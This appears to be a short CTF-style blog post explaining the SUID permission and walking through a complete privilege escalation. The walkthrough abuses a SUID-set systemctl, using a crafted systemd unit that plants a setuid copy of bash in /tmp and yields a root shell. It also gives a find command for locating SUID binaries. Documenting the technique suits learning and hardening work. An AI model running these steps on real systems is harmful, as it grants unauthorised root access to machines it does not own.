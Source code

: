 ```yaml
---
title: "SystemCTL SUID bit exploitation"
date: 2025-07-21
categories: Software
tags: [privesc, ctf, linux]
---
```


The SUID bit (Set owner User ID) is a special permission in Unix/Linux systems that, when set on an executable file, allows that file to be run with the permissions of the file’s owner, rather than the user who is running it. It is denoted with an `s` in the bit:

![SUID bit permission](/assets/images/suid.png)

If a binary owned by root has a SUID bit, the program will always run as root. This is extremely useful, especially in privilege escalation as we can do stuff like get a root shell.
 
In our case, the `systemctl` utility was assigned a SUID bit that we can exploit to gain a root shell by copying the output of `/bin/bash` to a file we make. The output of `/bin/bash` will be a root shell as in our case `systemctl` has a SUID bit and is owned by root.

> **Tip:** Locate all SUID bits with the command `find / -perm -u=s -type f 2>/dev/null`

## Exploitation

Firstly, we will create a file telling `systemctl` that when ran the output from `/bin/bash` should be written to `/tmp/rootbash` using SUID:

```bash
cat <<EOF > /tmp/rootme.service
[Unit]
Description=Root shell

[Service]
Type=simple
ExecStart=/bin/bash -c 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash'

[Install]
WantedBy=multi-user.target
EOF
```

We will then register this file with `systemctl`:

```bash
/bin/systemctl link /tmp/rootme.service
```

We can then enable the service:

```bash
/bin/systemctl enable --now rootme.service
```

Finally, we can run our `rootbash` file:

```bash
/tmp/rootbash -p
```

Note that the `-p` means that privileges should NOT be dropped. (Normally, when a SUID binary is ran, bash drops privileges for safety).

We should successfully obtain a root shell from this!






